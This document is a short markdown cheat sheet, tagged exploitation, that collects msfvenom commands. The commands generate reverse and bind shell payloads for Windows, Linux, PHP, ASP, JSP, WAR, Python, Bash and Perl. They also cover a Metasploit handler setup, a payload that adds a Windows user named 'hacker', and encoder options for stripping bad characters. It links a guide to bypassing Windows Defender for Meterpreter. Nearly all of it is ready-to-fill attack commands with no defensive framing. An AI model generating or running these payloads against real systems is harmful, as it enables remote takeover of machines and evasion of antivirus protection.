 ```yaml
---
category: Uncategorized
tags: []
---
```

#exploitation
## Creating a payload

- msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]

To view list of payloads: msfvenom -l payloads
To view the payload options: msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options

## Creating a payload with encoding

- msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile

## Creating a payload using a template

- msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Windows Payloads

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	
- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

## Linux Payloads

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom: 

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

## Web Payloads

PHP

- msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On>  -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

## Scripting Payloads

Python

- msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash

- msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl

- msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


Creating an Msfvenom Payload with an encoder while removing bad charecters:

- msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/
